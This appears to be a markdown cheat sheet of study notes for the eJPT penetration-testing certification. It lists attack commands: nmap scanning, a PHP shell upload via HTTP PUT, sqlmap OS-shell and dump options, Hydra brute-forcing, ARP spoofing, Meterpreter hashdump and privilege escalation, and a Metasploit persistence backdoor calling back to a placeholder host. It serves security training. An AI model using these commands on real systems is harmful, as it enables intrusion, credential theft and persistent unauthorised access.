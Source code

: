 # eJPT notes

## Routing

`ip route add ROUTETO via ROUTEFROM`  


## Enumeration

### whois

`whois site.com`

### Ping sweep

`fping -a -g 10.10.10.0/24 2>/dev/null  
nmap -sn 10.10.10.0/24`

### Nmap

```bash
# OS Detection, no ping
nmap -Pn -O 10.10.10.10

# def scripts, version check
nmap -sC -sV 10.10.10.10

# above + All ports
nmap -sC -sV -p- 10.10.10.10

# UDP version check
nmap -sU -sV 10.10.10.10
```

## Web Pentesting

### Banner Grabbing

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL for HTTPS services

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

`httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt`

### HTTP Verbs

`GET, POST, HEAD, PUT, DELETE, OPTIONS`

### PUT shells

```bash
wc -m shell.php
x shell.php

PUT /shell.php
Content-type: text/html
Content-length: x
```

### Directory and File Scanning

```bash
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```

### Google-fu

```text
site:
intitle:
inurl:
filetype:
AND, OR, &, |, -
```

### SQLMap

```bash
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump

# banner grabbing
sqlmap -u http://10.10.10.10/view.php?id=1 -b

# dump specified database
sqlmap -u http://10.10.10.10/view.php?id=1 --current-db selfie4you --dump


```



## Exploitation

### Unshadow

This prepares a file for use with John the Ripper `unshadow passwd shadow > unshadow`

### John The Ripper

`john -wordlist /path/to/wordlist -users=users.txt hashfile`

### Hydra

```bash
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### SMB / SAMBA

```bash
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```

### ARP spoofing

```text
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```

### Metasploit

```bash
search x
use x
info
show options
show advanced
```

#### Meterpreter

```bash
background
sessions -l
sessions -i 1
sysinfo
ifconfig
route
getuid
getsystem
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

#### Meterpreter - persistence backdoor

```bash
# persistent backdoor - need meterpreter session
msf > use exploit/windows/local/s4u_persistence
msf (s4u_persistence) > set session 2
#session => 2
msf (s4u_persistence) > set trigger logon
#trigger => logon
msf (s4u_persistence) > set payload windows/meterpreter/reverse_tcp
msf (s4u_persistence) > set lhost 1.2.3.4
msf (s4u_persistence) > set lport 1234
msf (s4u_persistence) > exploit


msf (s4u_persistence) > use exploit/multi/handler
msf (handler) > set payload windows/meterpreter/reverse_tcp
msf (handler) > exploit

# once victim restarts and logons, we will get a meterpreter shell
```

